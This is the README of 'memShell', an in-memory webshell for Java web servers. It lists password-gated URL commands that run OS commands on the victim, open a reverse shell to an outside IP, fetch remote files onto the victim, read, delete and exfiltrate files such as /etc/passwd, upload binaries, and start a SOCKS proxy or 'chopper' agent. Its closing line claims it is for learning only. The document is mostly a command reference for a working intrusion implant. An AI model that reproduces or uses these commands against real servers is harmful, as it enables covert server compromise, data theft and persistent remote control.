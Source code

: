 # memShell
a webshell resides in the memory of java web server

# Usage
anyurl?pwd=pass //show this help page.
anyurl?pwd=pass&model=exec&cmd=whoami  //run os command.
anyurl?pwd=pass&model=connectback&ip=8.8.8.8&port=51 //reverse a shell back to 8.8.8.8 on port 51.
anyurl?pwd=pass&model=urldownload&url=http://xxx.com/test.pdf&path=/tmp/test.pdf //download a remote file via the victim's network directly.
anyurl?pwd=pass&model=list[del|show]&path=/etc/passwd  //list,delete,show the specified path or file.
anyurl?pwd=pass&model=download&path=/etc/passwd  //download the specified file on the victim's disk.
anyurl?pwd=pass&model=upload&path=/tmp/a.elf&content=this_is_content[&type=b]   //upload a text file or a base64 encoded binary file to the victim's disk.
anyurl?pwd=pass&model=proxy  //start a socks proxy server on the victim.
anyurl?pwd=pass&model=chopper  //start a chopper server agent on the victim.

# note
For learning exchanges only, do not use for illegal purposes.by rebeyond.
